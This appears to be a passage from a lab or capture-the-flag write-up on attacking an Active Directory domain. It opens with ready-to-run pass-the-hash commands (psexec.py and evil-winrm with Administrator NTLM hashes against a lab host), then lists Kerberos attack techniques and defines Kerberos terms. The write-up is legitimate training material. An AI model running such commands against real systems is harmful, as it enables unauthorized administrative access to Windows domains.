 It used DRSUAPI method to get those hases 
Now
Getting the shell by the password ntlm we found

```
sudo python3 psexec.py Administrator:@spookysec.local -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
```

or use
````
evil-winrm -i 10.10.63.2 -u Administrator -H e4876a80a723612986d7609aa5ebc12b
````
*gem install evil-winrm*

This method of auth is called [**Pass The Hash**](https://attack.stealthbits.com/pass-the-hash-attack-explained)
[Cyber Mentor](https://www.youtube.com/watch?v=L8fK5-oTSws)

# Attacking Kerberos
Basic steps to take for attacking
-   Initial enumeration using tools like Kerbrute and Rubeus
-   Kerberoasting
-   AS-REP Roasting with Rubeus and Impacket
-   Golden/Silver Ticket Attacks
-   Pass the Ticket
-   Skeleton key attacks using mimikatz

What is Kerberos?
Kerberos is the default authentication service for Microsoft Windows domains. It is intended to be more "secure" than NTLM by using third party ticket authorization as well as stronger encryption. Even though NTLM has a lot more attack vectors to choose from Kerberos still has a handful of underlying vulnerabilities just like NTLM that we can use to our advantage.

## Common terminology
-   **Ticket Granting Ticket (TGT)** - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
-   **Key Distribution Center (KDC)** - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
-   **Authentication Serv****ice (AS)** - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
-   **Ticket Granting Service (TGS)** - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.  
    
-   **Service Principal Name (SPN)** - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
-   **KDC Long Term Secret Key (KDC LT Key)** \- The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
-   **Client Long Term Secret Key (Client LT Key)** \- The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
-   **Service Long Term Secret Key (Service LT Key)** \- The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
-   **Session Key** - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
-   **Privilege Attribute Certificate (PAC)** - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.
